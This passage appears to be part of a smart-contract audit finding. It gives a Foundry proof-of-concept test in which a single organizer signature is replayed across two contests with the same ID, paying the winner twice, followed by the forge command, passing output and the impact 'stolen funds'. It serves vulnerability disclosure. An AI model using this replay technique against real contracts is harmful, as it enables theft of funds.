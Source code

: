 ```

    MockToken token = new MockToken();
    token.mint(proxyFactory.getProxyAddress(salt1, address(distributor)), 1e18);
    token.mint(proxyFactory.getProxyAddress(salt2, address(distributor2)), 1e18);

    address winner = address(42);

    (bytes32 digest, bytes memory sendingData, bytes memory signature) = createSignatureByASigner2(TEST_SIGNER_KEY, address(winner), address(token));
    assertEq(ECDSA.recover(digest, signature), TEST_SIGNER);

    bytes memory data = abi.encodeWithSelector(
        ProxyFactory.deployProxyAndDistributeBySignature.selector,
        TEST_SIGNER, constestId, address(distributor), signature, sendingData
    );

    vm.prank(factoryAdmin);
    proxyFactory.setContest(TEST_SIGNER, constestId, block.timestamp + 1, address(distributor));
    vm.warp(2);
    proxyFactory.deployProxyAndDistributeBySignature(
        TEST_SIGNER, constestId, address(distributor), signature, sendingData
    );
    assertEq(token.balanceOf(winner), 95e16);

    // another contest with the same organizer and constestId BUT different implementation
    vm.prank(factoryAdmin);
    proxyFactory.setContest(TEST_SIGNER, constestId, block.timestamp + 1, address(distributor2));

    vm.warp(10);
    proxyFactory.deployProxyAndDistributeBySignature(
        TEST_SIGNER, constestId, address(distributor2), signature, sendingData
    );

    // winner claims prize for the second constest
    assertEq(token.balanceOf(winner), 2*95e16);
}
```
### Test
```
forge test --match-test testReplaySignature -vvv
```

### Output
```
[PASS] testReplaySignature() (gas: 1514636)
```


## Impact

Stolen funds
